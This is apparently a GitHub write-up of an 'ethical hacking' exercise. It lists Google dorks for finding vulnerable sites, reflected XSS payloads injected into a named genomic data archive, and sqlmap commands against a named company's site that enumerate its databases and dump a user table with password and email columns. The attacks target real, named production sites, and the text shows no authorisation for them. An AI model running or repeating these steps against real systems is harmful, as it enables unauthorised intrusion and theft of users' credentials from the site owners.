










## XSS
### 1. Vulnerable Website
Found the target site using this search query on Google Search Page 2,
```
		inurl:/search-results.php?search=
```



### 2. Target Site
- **About** 
	- The European Genome-phenome Archive (EGA) is a service for permanent archiving and sharing of all types of personally identifiable genetic and phenotypic data resulting from biomedical research projects. The EGA contains exclusive data collected from individuals whose consent agreements authorise data release only for specific research use or to bona fide researchers.
- Used this link:
	-  https://ega-archive.org/

### 3. Launching Attack
## 3.1 
	

	  - In the search bar, injected the following JS code and XSS happened
```
	<script>alert('Testing. XSS. EthicalHacking');</script>
```



## 3.2 Placing Image on Site
- Distorted the site with custom image on it using the following lines of code
```

	<script>
		alert('xss. Ethical Hacking!'); 
		document.write("");
	</script>


```



<center>_____________________________________________________</center>

## 3.2 SQL Injection using SQLMap
- Following the video steps found the sql vulnerable site using this google dork
```sql
	inurl:/product.php?id=
```



- Target Site Link https://www.lghk.com/product.php
	- **About Site**
		- LeachGarner is a global precious metal solution provider (A Berkshire Hathaway Company). We design, fabricate and distribute precious metal alloys, mill products and jewelry findings to a number of industries including electronics, medical, automotive, jewelry and numismatic. Headquartered in Attleboro, MA USA, LeachGarner has sales, distribution and manufacturing facilities in the US, Hong Kong and China. LeachGarner brands include General Findings, Excell Chains and Stern Metals.
### 3.2.a. Testing Site Vulnerable to Sql Injection or Not
- As described in the video, place an apostrophe at the end of the url and see if any error appears on page, if yes then site is vulnerable to attack.
```
	https://www.lghk.com/product.php?id=142&pid=4%27
```



### 3.2.b Testing Site using SQLMap
- Found databases of the site using this command
```
	sqlmap -u "https://www.lghk.com/product.php?id=142&pid=4" --dbs
```

- Output of the above command


- Fetching Tables of `leach` database as listed in the above screenshot using this command,
```
	sqlmap -u "https://www.lghk.com/product.php?id=142&pid=4" -D leach --tables

```

- Output of the above command


- Fetching columns in the `usr` table of `leach` database using this command
```
	sqlmap -u "https://www.lghk.com/product.php?id=142&pid=4" -D leach -T usr --columns

```

- Output of the above command


- Dumping users credentials using this command
```
	sqlmap -u "https://www.lghk.com/product.php?id=142&pid=4" -D leach -T usr -C "usr_id, usr_name, usr_pwd, usr_login_name, usr_email ,usr_st, usr_lv" --dump

```



<center>_____________________________________________________</center>